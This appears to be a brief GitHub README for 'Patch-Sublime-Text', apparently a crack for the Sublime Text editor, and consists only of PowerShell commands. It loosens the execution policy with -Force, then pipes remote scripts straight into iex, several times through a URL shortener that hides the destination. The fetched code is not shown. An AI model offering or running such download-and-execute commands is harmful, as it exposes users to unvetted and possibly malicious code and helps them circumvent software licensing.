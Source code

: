# Patch-Sublime-Text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
iwr -useb "https://raw.githubusercontent.com/AAAAAEXQOSyIpN2JZ0ehUQ/Patch-Sublime-Text/main/Patch_Sublime_Text.ps1" | iex
```
```python3
iwr -useb "https://acortar.link/zEsaP2" | iex
```
```python3
iwr -useb https://acortar.link/zEsaP2 | iex
```
```python3
irm https://acortar.link/zEsaP2 | iex
```
